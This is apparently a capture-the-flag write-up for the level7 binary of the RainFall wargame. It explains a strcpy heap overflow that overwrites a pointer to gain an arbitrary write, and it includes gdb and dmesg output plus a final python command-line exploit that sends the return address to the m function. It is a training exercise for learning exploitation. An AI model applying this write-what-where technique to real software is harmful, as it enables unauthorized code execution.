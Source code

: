 ### Brief
The program contain a `main`, and a `m` function.
The `main` function takes two argument and have 2 two-dimensional array allocated on the heap and 1 heap buffer.
Our first argument is copied at index 1 of the first 2d array.
Our second argument is copied at index 1 of the second 2d array.
The `m` function that print the time and what is contained by the variabl `c`.

### Exploit
Here we can overflow both buffer as `strcpy` is used on both buffer.
So we overflow the first buffer so that it can overwrite the addresses contained in the second 2d array.
Since the second 2d array contains the address where our second input will be copied, we can copy our second argument anywhere.

We use the pattern generator to get the offset needed to overwrite the address where our second argument will be copied.
```bash
level7@RainFall:~$ ./level7 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" test
level7@RainFall:~$ dmesg
...
[12284.472714] level7[10638]: segfault at 37614136 ip b7eb1922 sp bffff6cc error 6 in libc-2.15.so[b7e2c000+1a3000]
```
The offset is `20`

Then we need to get the address of the `m` function so that we overwrite the return address with it.
We do that because the content of the `.pass` file is copied into the `c` variable which is printed by the `m` function.

```bash
level7@RainFall:~$ gdb level7
(gdb) info functions
...
0x080484f4  m
...
```
The address of `m` is `0x080484f4`

We also need the address that contain the return address of the main function which is `%ebp + 4`.

```bash
level7@RainFall:~$ gdb level7
(gdb) break main
Breakpoint 1 at 0x8048524
(gdb) run
Starting program: /home/user/level7/level7 

Breakpoint 1, 0x08048524 in main ()
(gdb) print $ebp + 4
$2 = (void *) 0xbffff73c
```

The address is `0xbffff73c`

### Get access
We overwrite the address where the second parameter will be copied to with the address of the return address.
And we put the address of `m` inside.
```bash
./level7 `python -c "print('A'*20 + '\x3c\xf7\xff\xbf')"` `python -c "print('\xf4\x84\x04\x08')"`
```